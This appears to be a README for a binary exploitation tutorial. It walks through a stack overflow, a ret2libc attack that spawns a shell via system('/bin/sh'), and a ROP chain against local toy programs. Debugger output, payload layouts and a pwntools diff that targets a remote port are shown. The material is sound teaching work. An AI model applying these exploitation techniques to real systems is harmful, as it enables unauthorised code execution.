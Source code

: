 Binary Exploitation Tutorial
============================

Examples
--------

### GDB

* Path: `gdb/`
* Goal: perform an overflow to set the value of the `authenticated` variable to `1337` and make the application print the success message.

You can play the recording of the session by typing

	asciinema play gdb_example.cast

The video is also available [on-line](https://asciinema.org/a/oqIa5fgeeQWGiP9zyBQSisX6e).

### Ret2Libc

* Path: `ret2libc/`
* Goal: use a re2libc attack to call `system("/bin/sh")` by exploiting the overflow vulnerability in the `echo` function.

Find the address of the string "binsh":

	$ objdump -D ropme | grep binsh
	0804a020 <binsh>:

Find the address of system():

	$ gdb ropme
	(gdb) b main
	Breakpoint 1 at 0x80484b5
	(gdb) r
	Starting program: /home/marco/rop/ropme

	Breakpoint 1, 0x080484b5 in main ()
	(gdb) p system
	$1 = {<text variable, no debug info>} 0x2a8d3200 <system>

Now we must find the lenght of our payload and where to place the return address of the next function to call (system) and the parameter


	(gdb) b *0x08048486
	Breakpoint 2 at 0x8048486
	(gdb) c
	Continuing.
	AAAAAAAAAAAAAAAA
	AAAAAAAAAAAAAAAA

	Breakpoint 2, 0x08048486 in echo ()

	(gdb) x/40wx $esp
	0xffffd650:     0x2aa6e000      0x2aa6e000      0x00000000      0x41414141
	0xffffd660:     0x41414141      0x41414141      0x41414141      0x08048500
	0xffffd670:     0x00000001      0x00000000      0xffffd688      0x080484ac
	0xffffd680:     0x2aa929b0      0xffffd6a0      0x00000000      0x2a8aee81
	0xffffd690:     0x2aa6e000      0x2aa6e000      0x00000000      0x2a8aee81
	0xffffd6a0:     0x00000001      0xffffd734      0xffffd73c      0xffffd6c4
	0xffffd6b0:     0x00000001      0x00000000      0x2aa6e000      0x2aa9275a
	0xffffd6c0:     0x2aaaa000      0x00000000      0x2aa6e000      0x00000000
	0xffffd6d0:     0x00000000      0x3be2084a      0xd193cfe0      0x00000000
	0xffffd6e0:     0x00000000      0x00000000      0x00000001      0x08048340

	(gdb) info frame
	Stack level 0, frame at 0xffffd680:
	 eip = 0x8048486 in echo; saved eip = 0x80484ac
	 called by frame at 0xffffd6a0
	 Arglist at 0xffffd678, args:
	 Locals at 0xffffd678, Previous frame's sp is 0xffffd680
	 Saved registers:
	  ebx at 0xffffd674, ebp at 0xffffd678, eip at 0xffffd67c

	(gdb) p 0xffffd67c - (0xffffd660 - 4)
	$2 = 32


We now build the payload, see `exploit.py`

	marco@testbed:~/rop$ ./exploit.py ./ropme
	[+] Starting local process './ropme': pid 22214
	[*] Switching to interactive mode
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	$ id
	uid=1502(marco) gid=1503(marco) groups=1503(marco)

Pwntools is very handy because it allows to interact with remote programs as if they were local ones just be changing a single line in the script.

	marco@testbed:~/rop$ git diff exploit.py exploit_r.py
	diff --git a/exploit.py b/exploit_r.py
	index 94ff3a5..1a7bc89 100755
	--- a/exploit.py
	+++ b/exploit_r.py
	@@ -7,7 +7,7 @@ def main():
	     binsh = p32(0x0804a020)
	     system = p32(0xf7e26200)

	-    p = process(sys.argv[1])
	+    p = remote('127.0.0.1', 31337)
	     p.sendline('A'*32 + system + 'B'*4 + binsh)
	     p.interactive()


### ROP

* Path: `rop/`
* Goal: build a rop-chain to change the value of the `guard` into `0xb000000f` and continue with the execution of the program to make it print the success message.

Our simple ROP example requires to write an arbitrary value on a variable that is out of the stack. First we need to get the base address of the library when it's loaded:

	$ cat /proc/24240/maps
	f7de9000-f7fbe000 r-xp 00000000 fc:01 1807762                            /lib/i386-linux-gnu/libc-2.27.so

So our base address is f7de9000.

Now we look for a gadget that allows to write the content of a register into the address pointed by another register, like a `mov dword ptr [edx], eax`:

	$ ROPgadget --binary  /lib/i386-linux-gnu/libc-2.27.so > libcgadgets.txt
	$ grep -E 'mov dword ptr \[e.x\], e.x' libcgadgets.txt
	...
	0x00075425 : mov dword ptr [edx], eax ; ret
	...

Now we need to set something into these two registers, so we'd like to have some pops:

	0x00001aae : pop edx ; ret
	0x00024b5e : pop eax ; ret

And we should also figure out where our variable `guard` is:

	marco@testbed:~/rop_w$ objdump -D ropmew | grep guard
	0804a020 <guard>

And where the function should return:

	   0x08048498 <+26>:    call   0x8048456 <readstuff>
	   0x0804849d <+31>:    mov    eax,DWORD PTR [ebx+0x20]

One last step... the application expects to fetch the content of the `guard` from `ebx+0x20`. After the attack, we might have changed the value of `ebx`, so we must leverage another gadget to reset its value to the intended one. If we don't do this, the application might try to access an unreadable area of memory

	=> 0x0804849d <+31>:    mov    eax,DWORD PTR [ebx+0x20]
   	0x080484a3 <+37>:    cmp    eax,0xb000000f

As we can see, since `eax` should contain the value of the `guard`, the proper value of `ebx` must be the location of the guard - 0x20... the gadget we need is a `pop ebx; ret`:

	0x00018be5 : pop ebx ; ret

Now we write and execute the payload, see attack.py!

Tricks
------

### GDB

Provide some input systematically to the stdin of an application that is being debugged:

	(gdb) r < <(python -c 'print("A"*19)')
	(gdb) r <<< $(python -c 'print("A"*19)')

### Misc

Print the list of security features enabled for a certain binary

	$ checksec ./binary
